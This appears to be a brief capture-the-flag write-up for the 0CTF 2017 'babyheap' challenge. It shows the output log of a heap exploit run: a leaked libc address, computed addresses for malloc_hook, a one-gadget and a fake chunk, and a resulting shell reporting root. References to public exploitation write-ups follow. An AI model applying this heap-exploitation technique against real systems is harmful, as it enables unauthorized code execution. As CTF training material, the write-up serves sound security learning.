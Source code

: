 # 0CTF 2017 Babyheap

# Logs

```Python
[+] Starting local process './babyheap_69a42acd160ab67a68047ca3f9c390b9': pid 210
[*] '/home/work/0ctf_2017/babyheap/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Paused (press any to continue)
[*] Paused (press any to continue)
[*] leaking libc
x\xbb\x93\x8dr\x7f\x00\x00x\xbb\x93\x8dr\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

leaked : 0x7f728d93bb78
libc base = 0x7f728d577000
realloc_hook = 0x7f728d93bb08
malloc_hook = 0x7f728d93bb10
onegadget  0x7f728d5bc26a
fake chunk : 0x7f728d93baed
[*] Paused (press any to continue)
[*] Switching to interactive mode
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command: $ 
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$  

```
shifted fake chunk:

![alt text](1.png)


original position: 

![alt text](2.png)


# Reference

1. http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html

2. https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c

3. https://poning.me/2017/03/24/baby-heap-2017/

4. http://0x48.pw/2017/08/01/0x36/
